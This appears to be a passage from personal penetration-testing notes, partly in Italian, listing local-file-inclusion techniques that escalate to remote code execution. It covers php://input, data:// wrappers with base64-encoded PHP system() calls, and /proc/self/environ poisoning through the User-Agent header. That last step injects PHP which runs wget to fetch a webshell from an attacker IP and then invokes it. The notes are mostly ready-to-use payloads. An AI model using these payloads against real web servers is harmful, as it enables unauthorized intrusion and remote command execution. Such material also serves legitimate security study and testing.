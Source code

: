 ## 5) Using PHP input:// stream
POST based RCE
```http
/fi/?page=php://input&cmd=ls
```
<br>

## 6) Using data://text/plain;base64,command (RCE)
```php
data://text/plain;base64,[command encoded in base64]
or
data://text/plain,<?php shell_exec($_GET['cmd']);?>  
```
Esempio:
```http
#Original Req
http://example.com/Keeper.php?page=data://text/plain;base64,JTNDJTNGc3lzdGVtJTI4JTI3aWQlMjclMjklM0IlM0YlM0U=

#Decoded
http://example.com/Keeper.php?page=data://text/plain,<?system('id');?>  
```
<br>

## 7) Using /proc/self/environ
Another popular technique is to manipulate the Process Environ file. In a nutshell, when a process is created and has an open file handler then a file descriptor will point to that requested file.

Our main target is to inject the /proc/self/environ file from the HTTP Header: User-Agent. This file hosts the initial environment of the Apache process. Thus, the environmental variable User-Agent is likely to appear there.
```bash
curl http://secureapplication.example/index.php?view=../../../proc/self/environ
```
Server Response:
```
...snip...
HTTP_USER_AGENT="curl/" </body>
...snip...
```
so we can inject stuff like a webshell
```bash
curl -H "User-Agent: <?php system('wget http://10.10.14.6/webshell.php -O webshell.php')" http://target.com

curl http://target.com/webshell.php&cmd=ls

```

Altre tecniche con /proc [[LFI w/ proc]]
<br>
